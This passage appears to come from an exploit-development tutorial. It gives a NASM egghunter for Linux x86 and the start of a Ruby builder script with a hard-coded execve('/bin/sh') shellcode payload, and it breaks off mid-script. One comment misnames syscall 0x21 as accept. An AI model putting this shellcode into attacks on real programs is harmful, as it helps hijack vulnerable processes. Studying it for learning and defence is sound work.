 ## Implementation
The below nasm code is the implementation of egghunter shellcode based on the understanding of the concept. This is not tested in several systems and not guaranteed to be working at all times:
```nasm
; Purpose: egghunter
; inspired from: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

global _start

section .text
  EGG equ 0x50905090     ; EGG = push eax; nop; push eax; nop

_start:
  xor ecx, ecx           ; clear
  mul ecx                ; registers

page_alignment:
  or bx, 0xfff           ; add 4095 to bx

inspection:
  inc ebx                ; make ebx = 4096 - page size
  mov al, 0x21           ; syscall for accept
  int 0x80               ; execute syscall
  cmp al, 0xf2           ; check if the current page(ebx) is accessible
  jz page_alignment      ; jump to page_alignment if page is inaccessible
  mov edi, ebx           ; mov address in ebx to edi
  mov eax, EGG           ; value of the egg stored in eax
  scasd                  ; check if the current page contains the EGG
                         ; this will scan the address in edi and compare
                         ; with the value of eax;
                         ; this is the same operation used in the third
                         ; implementation of egghunter by skape
  jnz inspection         ; jump to inspection if EGG is not found
  jmp edi                ; if EGG is found, jump to the address
```
## Dynamic Configuration
The simple Ruby script below will dynamically use shellcodes that will be passed into the `-p` or `--payload` flag (default: 'bin/sh'). Also, there are 4 choices which egghunter shellcode to be used: 3 implementations of skape, and the egghunter from [above section](#implementation).

```ruby
#!/usr/bin/env ruby
# Author: Jason Villaluna

require 'optparse'

# Default payload to use if nothing is pass
# execve(/bin//sh, NULL, NULL)
PAYLOAD = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50'\
          '\x53\x89\xe1\xb0\x0b\xcd\x80'.freeze

def run
  parse_args
  get_egghunter
  compile_nasm
  @egghunter_shellcode = generate_shellcode
  replace_shellcode
  compile_binary
rescue OptionParser::MissingArgument
  puts "Missing argument:"
  @parser.parse %w[--help]
rescue StandardError => e
```